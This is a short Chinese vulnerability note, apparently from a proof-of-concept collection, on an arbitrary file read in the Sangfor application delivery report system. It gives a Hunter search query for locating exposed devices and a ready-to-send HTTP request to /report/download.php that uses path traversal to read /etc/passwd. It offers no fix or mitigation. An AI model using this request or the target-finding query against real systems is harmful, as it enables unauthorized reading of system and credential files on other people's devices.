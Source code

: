 # 深信服应用交付管理系统download存在任意文件读取漏洞

# 一、漏洞简介
SINFOR AD是深信服最新推出的应用交付系列设备，其突出特色就是SINFOR AD的智能分析功能。深信服应用交付报表系统存在任意文件读取漏洞,攻击者利用漏洞可读取设备中的指定路径文件。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 深信服应用交付管理系统

# 三、资产测绘
+ hunter`app.name="SANGFOR 深信服应用交付报表系统"`

![1692580728281-e2c427e5-64ba-4fda-80b8-5dcd4479adb2.png](./img/inddIlyPIEVWA20l/1692580728281-e2c427e5-64ba-4fda-80b8-5dcd4479adb2-600823.png)

+ 登录页面

![1692580869733-49d82074-5a7c-4a29-9672-2f3b2f4b1557.png](./img/inddIlyPIEVWA20l/1692580869733-49d82074-5a7c-4a29-9672-2f3b2f4b1557-195155.png)

# 四、漏洞复现
```plain
GET /report/download.php?pdf=../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![1713459981265-735fdb41-5657-4fbd-b2cf-4cec25a0eb5c.png](./img/inddIlyPIEVWA20l/1713459981265-735fdb41-5657-4fbd-b2cf-4cec25a0eb5c-129484.png)



> 更新: 2024-04-19 08:49:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zuh5abx5zhqimn9n>